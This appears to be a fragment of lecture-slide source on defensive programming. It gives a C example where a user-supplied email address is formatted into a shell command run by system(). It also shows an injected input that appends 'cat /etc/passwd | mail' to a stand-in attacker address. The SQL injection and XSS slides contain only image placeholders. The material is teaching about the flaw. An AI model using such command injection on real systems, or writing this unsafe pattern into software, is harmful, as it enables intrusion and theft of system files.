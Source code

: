 * An application inputs an email address from a user and writes the address to a buffer

```c
sprintf(buffer, "/bin/mail < /tmp/email %s", addr);
```

The buffer is then executed using the `system()` call

* The risk is, of course, that the user enters the following string as an email address;
* `bogus@addr.com; cat /etc/passwd | mail some@badguy.net`

# SQL Injection

\centering
\includegraphics[width=.85\textwidth]{images/defensive/sqlinject1.eps}

# SQL Injection

::: columns
:::: column

\centering
\includegraphics[width=.85\textwidth]{images/defensive/sqlinject2.eps}

::::
:::: column

\centering
\includegraphics[width=.85\textwidth]{images/defensive/sqlinject3.eps}

::::
:::

# XSS

::: columns
:::: column

\centering
\includegraphics[width=.85\textwidth]{images/defensive/xss1.eps}

::::
:::: column

\centering
\includegraphics[width=.85\textwidth]{images/defensive/xss2.eps}

::::
:::

# Summary


# For Next Time
